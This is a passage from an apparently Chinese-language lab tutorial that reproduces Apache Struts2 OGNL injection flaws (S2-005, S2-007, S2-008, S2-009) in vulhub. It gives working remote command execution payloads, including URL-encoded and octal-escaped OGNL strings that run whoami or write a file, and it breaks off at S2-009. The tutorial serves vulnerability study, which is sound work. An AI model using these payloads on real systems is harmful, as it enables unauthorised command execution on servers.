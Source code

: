 本地搭建过于麻烦，学会搭建一个就行，这里我们用vulhub来继续复现。vulhub搭建相信大家肯定都会。<br/> s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b4d24ff834cc1733b21437f59b72c0e5.jpeg"/>

##### 执行任意文件写入：

`?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&amp;(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&amp;(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1`<br/> GET和POST方式都能把payload打过去<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d9fb8fc7dfcd2e4cfe1fdd1de209d674.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a7aaefd4bea3764fbe9159eb659139ba.jpeg"/><br/> 成功创建

##### 命令执行：

用k8的工具：<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ed69911b3a170f35ff2f3eb9bba4b546.jpeg"/><br/> wireshark抓取k8的payload如下：

```
('\43_memberAccess.allowStaticMethodAccess')(a)=true&amp;(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))=&amp;('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))=&amp;(g)(('\43mycmd\75\'whoami\'')(d))=&amp;(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))=&amp;(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))=&amp;(j)(('\43myres\75new\40byte[51020]')(d))=&amp;(k)(('\43mydat.readFully(\43myres)')(d))=&amp;(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))=&amp;(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))=&amp;(n)(('\43myout.getWriter().println(\43mystr)')(d))

```

#### S2-007

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/4ab63c30a66be259e6c43fe3e51e6890.jpeg"/><br/> age来自于用户输入，传递一个非整数给id导致错误，struts会将用户的输入当作ongl表达式执行，从而导致了漏洞<br/> 当-validation.xml配置的验证规则。如果类型验证转换失败，则服务器将拼接用户提交的表单值字符串，然后执行OGNL表达式解析并返回。

##### 验证

age输入`'+(1+1)+'`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/cc3e6abdc1f7cebbefff8c4670189998.jpeg"/><br/> 变成了11

##### 命令执行

`' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a597a355cf1d554a8d66b6f44b996e2e.jpeg"/><br/> whoami执行成功

#### S2-008

S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。还有就是 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，但这种情况再生产环境中几乎不可能存在。<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/d7a664ccbc1f7352ec8ec3b3eda4b0ce.jpeg"/>

##### 命令执行

payload

```
/devmode.action?debug=command&amp;expression=(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23foo%3dnew+java.lang.Boolean(%22false%22)+%2c%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3d%23foo%2c%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27whoami%27).getInputStream()))

```

#### S2-009

OGNL提供了广泛的表达式评估功能等功能，该漏洞允许恶意用户绕过ParametersInterceptor内置的所有保护（正则表达式，拒绝方法调用），从而能够将任何暴露的字符串变量中的恶意表达式注入进行进一步评估<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/32e5cf32854cd11f7c4c80ee416bdd30.jpeg"/>
